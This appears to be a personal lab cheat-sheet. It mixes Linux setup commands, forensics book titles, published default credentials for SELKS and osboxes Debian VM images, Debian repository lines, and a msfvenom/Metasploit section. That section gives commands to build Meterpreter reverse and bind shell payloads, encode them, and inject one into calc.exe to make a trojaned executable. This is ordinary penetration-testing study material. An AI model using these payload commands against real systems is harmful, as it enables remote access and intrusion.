 #Linux commands

#Basic commands
sudo apt-get update
sudo apt-get upgrade
sudo apt-get install virtualbox-guest-dkms
sudo apt-get install virtualbox-guest-x11

#Add user rights to shared folder
sudo adduser %username% vboxsf

#Run python scripts
!/usr/bin/env python *.py
chmod 0755 *.py

#Forensic and analytics books
Forensics and Incident Response by Gerard Johansen
Network Intrusion Analysis by Steven Bolt, Joe Fichera

#SELKS
Usage and logon credentials (OS and web management user)
user: selks-user
password: selks-user (password in Live mode is live)
The default root password is StamusNetworks

#Debian credentials
Username: osboxes
Password: osboxes.org
Root Account Password: osboxes.org

#Debian repos
deb http://httpredir.debian.org/debian jessie main contrib
deb-src http://httpredir.debian.org/debian jessie main contrib

deb http://httpredir.debian.org/debian jessie-updates main contrib
deb-src http://httpredir.debian.org/debian jessie-updates main contrib

deb http://security.debian.org/ jessie/updates main contrib
deb-src http://security.debian.org/ jessie/updates main contrib 

#Basic Msfvenom Usage
//If you have never used msfvenom, the first thing you should do is read the help menu, and memorize some of these flags:
    -p, --payload    <payload>       Payload to use. Specify a '-' or stdin to use custom payloads  
    -l, --list       [module_type]   List a module type example: payloads, encoders, nops, all  
    -n, --nopsled    <length>        Prepend a nopsled of [length] size on to the payload  
    -f, --format     <format>        Output format (use --help-formats for a list)  
    -e, --encoder    [encoder]       The encoder to use  
    -a, --arch       <architecture>  The architecture to use  
        --platform   <platform>      The platform of the payload  
    -s, --space      <length>        The maximum size of the resulting payload  
    -b, --bad-chars  <list>          The list of characters to avoid example: '\x00\xff'  
    -i, --iterations <count>         The number of times to encode the payload  
    -c, --add-code   <path>          Specify an additional win32 shellcode file to include  
    -x, --template   <path>          Specify a custom executable file to use as a template  
    -k, --keep                       Preserve the template behavior and inject the payload as a new thread  
        --payload-options            List the payload's standard options  
    -o, --out   <path>               Save the payload  
    -v, --var-name <name>            Specify a custom variable name to use for certain output formats  
    -h, --help                       Show this message  
        --help-formats               List available formats  
Example 1: If you wish to list all the payloads available, you can do the following (also the same for listing encoders, nops, or all):

./msfvenom -l payloads  
Example 2: Generating a windows/meterpreter/reverse_tcp:

./msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP -f exe  
Example 3: To generate a payload that avoids certain bad characters:

./msfvenom -p windows/meterpreter/bind_tcp -b '\x00'  
Example 4: To generate a payload with a specific encoder, and then encode 3 times:

./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3  
Example 5: Inject a payload to calc.exe, and save it as new.exe

./msfvenom -p windows/meterpreter/bind_tcp -x calc.exe -k -f exe > new.exe  

#Work with Metasploit DB
root@kali:~# systemctl start postgresql
root@kali:~# msfdb init
msf > db_status 
msf > workspace -a lab4 / msf > workspace -d lab4
msf >  db_import /root/msfu/nmapScan 
